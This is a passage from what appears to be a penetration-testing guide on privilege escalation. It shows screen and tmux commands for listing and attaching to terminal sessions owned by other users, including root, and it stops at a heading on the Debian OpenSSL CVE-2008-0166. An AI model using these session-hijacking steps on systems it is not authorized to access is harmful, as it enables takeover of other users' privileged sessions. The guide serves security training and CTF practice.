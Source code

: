 ## Open shell sessions

In **old versions** you may **hijack** some **shell** session of a different user (**root**).\
In **newest versions** you will be able to **connect** to screen sessions only of **your own user**. However, you could find **interesting information inside of the session**.

### screen sessions hijacking

**List screen sessions**

```bash
screen -ls
```

![](<../../.gitbook/assets/image (130).png>)

**Attach to a session**

```bash
screen -dr <session> #The -d is to detacche whoever is attached to it
screen -dr 3350.foo #In the example of the image
```

### tmux sessions hijacking

Apparently this was a problem with **old tmux versions**. I wasn't able to hijack a tmux (v2.1) session created by root from a non-privileged user.

**List tmux sessions**

```bash
tmux ls
ps aux | grep tmux #Search for tmux consoles not using default folder for sockets
tmux -S /tmp/dev_sess ls #List using that socket, you can start a tmux session in that socket with: tmux -S /tmp/dev_sess
```

![](<../../.gitbook/assets/image (131).png>)

**Attach to a session**

```bash
tmux attach -t myname #If you write something in this session it will appears in the other opened one
tmux attach -d -t myname #First detach the sessinos from the other console and then access it yourself
tmux -S /tmp/dev_sess attach -t 0 #Attach using a non-default tmux socket
```

Check **valentine box from HTB** for an example.

## SSH

### Debian OpenSSL Predictable PRNG - CVE-2008-0166
